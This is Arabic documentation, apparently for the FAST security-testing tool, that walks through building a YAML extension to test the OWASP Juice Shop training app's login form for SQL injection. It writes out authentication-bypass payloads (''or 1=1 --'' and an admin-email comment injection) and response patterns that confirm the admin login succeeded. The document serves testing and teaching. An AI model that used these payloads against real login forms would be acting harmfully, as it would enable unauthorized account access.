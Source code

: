 [link-app-examination]:     app-examination.md
[link-points]:              ../points/intro.md
[link-using-extension]:     ../using-extension.md
[link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section

[doc-collect-phase]:        ../phase-collect.md
[doc-match-phase]:          ../phase-match.md
[doc-modify-phase]:         ../phase-modify.md
[doc-generate-phase]:       ../phase-generate.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project

#   إنشاء تمديد تعديل

التمديد الموصوف في هذه الوثيقة سيُعدل طلب الأساس الوارد لإدخال بعض الحمولات إليه. هذه الحمولات يمكن أن تؤدي إلى استغلال ضعف SQLi في نموذج تسجيل الدخول لتطبيق الهدف الخاص ب[”OWASP Juice Shop“][link-juice-shop].
  
##  الاستعدادات

يُنصح بشدة باتخاذ هذه الخطوات قبل إنشاء تمديد FAST:
1.  [التحري عن سلوك تطبيق الهدف][link-app-examination] الذي تقوم بإنشاء التمديد له.
2.  [قراءة مبادئ بناء النقاط لتمديد][link-points].


##  بناء التمديد

إنشاء ملف يصف التمديد (على سبيل المثال، `mod-extension.yaml`) واملأه بالأقسام المطلوبة:

1.  [**قسم `meta-info`**][link-meta-info].

    إعداد وصف الضعف الذي سيحاول التمديد الكشف عنه.
    
    * عنوان الضعف: `OWASP Juice Shop SQLi (mod extension)`
    * وصف الضعف: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    * نوع الضعف: حقن SQL
    * مستوى تهديد الضعف: عالي
    
    يجب أن يبدو قسم `meta-info` المقابل كما يلي:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **قسم `collect`, مرحلة [Collect][doc-collect-phase]**.
    
    يتم استدعاء طريقة REST API `POST /rest/user/login` عند محاولة تسجيل الدخول.
    
    لا حاجة لإنشاء طلبات اختبار لكل واحد من طلبات الأساس لتسجيل الدخول التي أُرسلت إلى الواجهة البرمجية للتطبيق نظرًا لأن الاختبار للضعف سيتم بنفس الطريقة لكل قطعة من البيانات المرسلة في الطلب POST.
    
    قم بإعداد التمديد بحيث يتم تشغيله مرة واحدة عندما تتلقى الواجهة البرمجية للتطبيق الطلب لتسجيل الدخول. للقيام بذلك، أضف مرحلة Collect بشرط الفريد للتمديد.

    يتكون الطلب `/rest/user/login` إلى الواجهة البرمجية للتطبيق لتسجيل الدخول من:

    1.  الجزء الأول من المسار بقيمة `rest`,
    2.  الجزء الثاني من المسار بقيمة `user`, و
    3.  طريقة العمل `login`
    
    النقاط المتوافقة التي تشير إلى هذه القيم هي التالية:

    1.  `PATH_0_value` للجزء الأول من المسار
    2.  `PATH_1_value` للجزء الثاني من المسار
    3.  `ACTION_NAME_value` لطريقة العمل `login`
    
    إذا أضفت الشرط بأن مجموعة هذه العناصر الثلاثة يجب أن تكون فريدة، عندها سيتم تشغيل التمديد فقط لأول طلب أساس `/rest/user/login` إلى الواجهة البرمجية للتطبيق (سيتم التعامل مع مثل هذا الطلب على أنه فريد، وجميع الطلبات التالية إلى الواجهة البرمجية للتطبيق لتسجيل الدخول لن تكون فريدة). 
    
    أضف القسم `collect` المقابل إلى ملف YAML للتمديد. 
    
    ```
    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]
    ```

3.  **قسم `match`, مرحلة [Match][doc-match-phase]**.
    
    من الضروري التحقق مما إذا كانت طلبات الأساس الواردة هي فعلاً طلب إلى الواجهة البرمجية للتطبيق لتسجيل الدخول، لأن التمديد الذي نقوم بإنشائه سيستغل الضعف الذي يحتويه نموذج تسجيل الدخول.
    
    قم بإعداد التمديد بحيث يتم تشغيله فقط إذا كان طلب الأساس موجهًا إلى الرابط التالي: `/rest/user/login`. أضف مرحلة Match التي تتحقق مما إذا كان الطلب الوارد يحتوي على العناصر المطلوبة. يمكن القيام بذلك باستخدام القسم `match` التالي:

    ```
    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'
    ```

4.  **قسم `modify`, مرحلة [Modify][doc-modify-phase]**.
    
    دعونا نفترض أنه من المطلوب تعديل طلب الأساس لتحقيق الأهداف التالية:
    * إفراغ قيمة رأس HTTP الخاص بـ `Accept-Language` (هذه القيمة ليست مطلوبة لاكتشاف الضعف).
    * استبدال القيم الحقيقية لمعلمات `email` و `password` بالقيم المحايدة `dummy`.
    
    أضف إلى التمديد قسم `modify` التالي الذي يغير الطلب لتحقيق الأهداف المذكورة أعلاه:
    
    ```
    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"
    ```
    
    !!! info "بناء النقاط وصف عناصر الطلب"
        نظرًا لأن بيانات الطلب الموجودة في تنسيق JSON مخزنة في أزواج `<key: value>`, سيظهر النقطة التي تشير إلى قيمة عنصر `email` كما هو موضح أعلاه. النقطة التي تشير إلى قيمة عنصر `password` لها هيكل مماثل.
        
        لرؤية معلومات مفصلة حول بناء النقاط، تابع إلى هذا [الرابط][link-points].
 
5.  **قسم `generate`, مرحلة [Generate][doc-generate-phase]**.

    من المعروف أن هناك حمولتين يجب استبدال قيمة معلمة `email` في طلب الأساس بهما لاستغلال ضعف حقن SQL في تطبيق الهدف:
    * `'or 1=1 --`
    * `admin@juice-sh.op'--`
        
    !!! info "إدخال الحمولة في الطلب المعدل"
        سيتم إدخال الحمولة في الطلب المعدل مسبقًا لأن التمديد يحتوي على قسم `modify`. بالتالي، بعد إدخال الحمولة الأولى في حقل `email`, يجب أن يبدو بيانات الطلب الاختباري كما يلي:
    
        ```
        {
            "email": "'or 1=1 --",
            "password":"dummy"
        }
        ```
    
        نظرًا لأنه يمكن استخدام أي كلمة مرور لتسجيل الدخول بنجاح بسبب الحمولات المختارة، فليس من الضروري إدخال الحمولة في حقل كلمة المرور، والذي سيكون له قيمة `dummy` بعد تطبيق مرحلة Modify.
    
        أضف قسم `generate` الذي سينشئ الطلبات الاختبارية التي تفي بالمتطلبات المذكورة أعلاه.
    
        ```
        generate:
          - payload:
            - "'or 1=1 --"
            - "admin@juice-sh.op'--"
          - into: "POST_JSON_DOC_HASH_email_value"
          - method:
            - replace
        ```

6.  **قسم `detect`, مرحلة [Detect][doc-detect-phase]**.
    
    الشروط التالية تشير إلى أن المصادقة بحقوق المسؤول كانت ناجحة:
    * وجود معلمة معرف عربة التسوق بقيمة `1` في جسم الاستجابة. المعلمة بتنسيق JSON ويجب أن تبدو بالطريقة التالية:
    
        ```
        "bid":1
        ```
    
    * وجود معلمة بريد المستخدم بقيمة `admin@juice-sh.op` في جسم الاستجابة. المعلمة بتنسيق JSON ويجب أن تبدو بالطريقة التالية:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    أضف قسم `detect` الذي يتحقق مما إذا كان الهجوم ناجحًا وفقًا للشروط المذكورة أعلاه.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "هروب الرموز الخاصة"
    تذكر هروب الرموز الخاصة في السلاسل.

##  ملف التمديد

الآن يحتوي ملف `mod-extension.yaml` على مجموعة كاملة من الأقسام المطلوبة لتشغيل التمديد. قائمة محتويات الملف أدناه:

??? info "mod-extension.yaml"
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

    collect:
      - uniq:
        - [PATH_0_value, PATH_1_value, ACTION_NAME_value]

    match:
      - PATH_0_value: 'rest'
      - PATH_1_value: 'user'
      - ACTION_NAME_value: 'login'

    modify:
      - "HEADER_ACCEPT-LANGUAGE_value": ""
      - "POST_JSON_DOC_HASH_email_value": "dummy"
      - "POST_JSON_DOC_HASH_password_value": "dummy"

    generate:
      - payload:
        - "'or 1=1 --"
        - "admin@juice-sh.op'--"
      - into: "POST_JSON_DOC_HASH_email_value"
      - method:
        - replace

    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```

##  استخدام التمديد

للحصول على معلومات مفصلة حول كيفية استخدام التعبير الذي تم إنشاؤه، اقرأ [هذه الوثيقة][link-using-extension].